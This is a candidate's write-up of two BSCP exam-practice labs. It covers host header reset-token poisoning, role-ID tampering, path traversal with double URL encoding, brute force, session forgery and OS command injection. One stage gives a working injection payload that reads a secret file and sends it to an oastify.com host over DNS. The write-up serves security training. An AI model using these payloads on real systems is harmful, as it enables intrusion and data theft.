# 🧾 **WRITE-UP: BSCP – 2025-06-20**

## 🔬 **Lab 1**

### 🧩 Stage 1 – HTTP Host Header Attack

* **Objective:** Gain access to Carlos’s account.

* **Steps:**

  * Discovered a hidden `X-Host` header. Its value is reflected in a `<script>` tag:
    
  * Since there was no direct way to deliver this to the victim, I combined it with another vulnerability in the *forgot password* function. I set the `X-Host` header to my Burp Collaborator server and submitted a password reset request for the user `carlos`:
    
  * Checked the Collaborator server and successfully received a request containing Carlos’s reset token:
    
  * Used the token to reset Carlos’s password and gained access to his account.

* **Key Takeaway:** Initially, I focused too heavily on finding a delivery vector for the `X-Host` header (e.g., via smuggling, cache poisoning, cache deception, or XSS), which led me down a rabbit hole. My advice is to consider the broader context instead of hyper-focusing on a single point.

---

### 💥 Stage 2 – Access Control

* **Objective:** Escalate privileges to admin.

* **Steps:**

  * Noticed that the *update email* function returned a suspicious parameter: `roleid`.
    
  * Tried modifying this value via the same endpoint, and it worked. I then brute-forced different values until I found the admin's role ID was `114`:
    

* **Key Burp Tool Used:** Intruder (for brute-forcing role IDs)

---

### 🏁 Stage 3 – Path Traversal

* **Objective:** Extract the flag located at `/home/carlos/secret`.

* **Steps:**

  * Observed that the application used relative paths to retrieve images, which indicated a possible file path traversal vulnerability:
    
  * Attempted traversal but was blocked by the front-end:
    
  * Bypassed this by using **double URL encoding** with the path `../../../../../../../../../../home/carlos/secret`:
    

* **Lesson:** Don’t overlook encoding tricks—double encoding often bypasses client-side or proxy-level filters.

---

## 🔍 **Lab 2**

### 🧩 Stage 1 – Authentication

* **Objective:** Gain access to a privileged account.

* **Steps:**

  * Performed a simple brute-force using the provided [username wordlist](Authentication\usernames.txt) and [password wordlist](Authentication\passwords.txt), and successfully discovered a valid account:
    

---

### 💥 Stage 2 – Business Logic Flaw

* **Objective:** Escalate privileges to admin.

* **Steps:**

  * Observed that the new session cookie set by the server contained:

    * The username
    * An `isLoggedin` flag
    * A signature (likely a MAC to protect the token's integrity)
      
  * The goal was to obtain a session token for the user `administrator` with a valid signature.
  * Noticed the *forgot password* endpoint sets the `username` from the request body, reuses the `isLoggedin` value, and recalculates the signature.
  * Exploited this by sending a request to the forgot password function with the username set to `administrator`:
    
  * Used the resulting session cookie to access the admin account.

---

### 🏁 Stage 3 – OS Command Injection

* **Objective:** Read the secret file via RCE.

* **Steps:**

  * Upon accessing the admin account, discovered a new *add user* function.
  * Injected an OS command in the email field, triggering an out-of-band (OAST) interaction using this payload:

    ```
    email>user1@example.com `ping \`cat /home/carlos/secret\`.00y4ih6u9yxg3x95h4c8qlu6mxsogf44.oastify.com`</email>
    ```

    
  * Checked the Burp Collaborator server and successfully retrieved the flag:
    

--- 